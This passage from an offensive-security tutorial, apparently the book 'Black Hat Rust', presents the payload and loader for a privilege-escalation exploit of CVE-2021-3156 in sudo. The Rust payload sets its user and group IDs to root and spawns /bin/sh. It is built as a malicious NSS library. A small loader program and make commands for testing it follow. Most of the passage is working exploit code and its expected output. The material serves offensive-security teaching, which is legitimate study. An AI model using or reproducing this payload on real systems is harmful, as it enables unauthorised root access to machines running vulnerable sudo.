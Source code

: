 ```rust
    syscall1(SYS_SETUID, 0);
    syscall1(SYS_SETGID, 0);

    if syscall0(SYS_GETUID) == 0 {
        let message = "[+] We are root!\n";
        syscall3(
            SYS_WRITE,
            STDOUT,
            message.as_ptr() as u64,
            message.len() as u64,
        );

        let command = "/bin/sh";
        syscall3(SYS_EXECVE, command.as_ptr() as u64, 0, 0);
    } else {
        let message = "[-] We are not root!\n[-] Exploit failed!\n";
        syscall3(
            SYS_WRITE,
            STDOUT,
            message.as_ptr() as u64,
            message.len() as u64,
        );
    }

    syscall1(SYS_EXIT, 0);
}
```

To test that the `rust_init` function is actually called when the library is loaded, we create a simple loader program that loads the library.

**[ch_07/exploits/cve_2021_3156/loader/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_07/exploits/cve_2021_3156/loader/src/main.rs)**
```rust
// A simple program to load a dynamic library, and thus test
// that the rust_init function is called
fn main() {
    let lib_path = "./libnss_x/x.so.2";

    unsafe {
        libc::dlopen(lib_path.as_ptr() as *const i8, libc::RTLD_LAZY);
    }
}
```

You can test it by running:

```bash
$ make payload
$ make load
```

Which should print:
```default
[+] Hello from Rust payload
...
```
